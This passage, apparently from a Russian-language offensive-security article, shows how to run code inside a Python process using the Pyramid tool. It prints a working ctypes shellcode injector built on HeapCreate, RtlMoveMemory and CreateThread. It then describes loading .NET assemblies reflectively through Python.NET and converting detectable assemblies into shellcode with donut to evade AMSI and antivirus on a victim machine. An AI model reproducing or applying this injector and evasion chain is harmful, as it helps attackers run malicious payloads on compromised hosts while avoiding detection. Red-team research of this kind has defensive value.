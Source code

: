 ## Python.NET

Автор инстрмента [предложил](https://github.com/naksyn/Pyramid/blob/main/Server/base-bof.py) интересный способ для запуска других программ внутри процесса интерпретатора Python, а именно — конвертация шелл-кода из [BOF](https://ppn.snovvcrash.rocks/red-team/maldev/bof-coff)-файлов (Beacon Object Files) с помощью [BOF2shellcode](https://github.com/FalconForceTeam/BOF2shellcode) и последующий инжект в локальный процесс питона нехитрым API-трио `HeapCreate`, `RtlMoveMemory`, `CreateThread`:

```python
HeapCreate = ctypes.windll.kernel32.HeapCreate
HeapCreate.argtypes = [wt.DWORD, ctypes.c_size_t, ctypes.c_size_t]
HeapCreate.restype = wt.HANDLE

RtlMoveMemory = ctypes.windll.kernel32.RtlMoveMemory
RtlMoveMemory.argtypes = [wt.LPVOID, wt.LPVOID, ctypes.c_size_t]
RtlMoveMemory.restype = wt.LPVOID

CreateThread = ctypes.windll.kernel32.CreateThread
CreateThread.argtypes = [
    wt.LPVOID, ctypes.c_size_t, wt.LPVOID,
    wt.LPVOID, wt.DWORD, wt.LPVOID
]
CreateThread.restype = wt.HANDLE

WaitForSingleObject = kernel32.WaitForSingleObject
WaitForSingleObject.argtypes = [wt.HANDLE, wt.DWORD]
WaitForSingleObject.restype = wt.DWORD

heap = HeapCreate(0x00040000, len(sc), 0)
HeapAlloc(heap, 0x00000008, len(sc))
print('[*] HeapAlloc() Memory at: {:08X}'.format(heap))
RtlMoveMemory(heap, sc, len(sc))
print('[*] Shellcode copied into memory.')
thread = CreateThread(0, 0, heap, 0, 0, 0)
print('[*] CreateThread() in same process.')
WaitForSingleObject(thread, 0xFFFFFFFF)
```

Я решил пойти по другому пути и принести с собой на жертву [CLR](https://www.nuget.org/packages/pythonnet) .NET-кода, вызываемый из Python. То есть оформить модуль [Python.NET](https://github.com/pythonnet/pythonnet) для его использования с Pyramid. В результате мы можем загружать программы .NET по принципу [Reflective Assembly](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/av-edr-evasion/dotnet-reflective-assembly) из памяти процесса интерпретатора Python. Это не избавляет нас от необходимости уклоняться от AMSI при исполнении, однако для этого есть другой трюк — это [donut](https://github.com/TheWover/donut)!

Идея в том, чтобы конвертировать заведомо «палющуюся» сборку .NET в позиционно-независимый шелл-код и использовать его вместе с тривиальным инжектором на C#. Как сделать недетектируемый инжектор, мы подробно обсуждали, когда [мучили KeePass](https://xakep.ru/2022/03/31/keethief/), а для этого демо я воспользуюсь своим закрытым инструментом для автоматизированной генерации такого инжектора.


[//]: # (2022-10-27)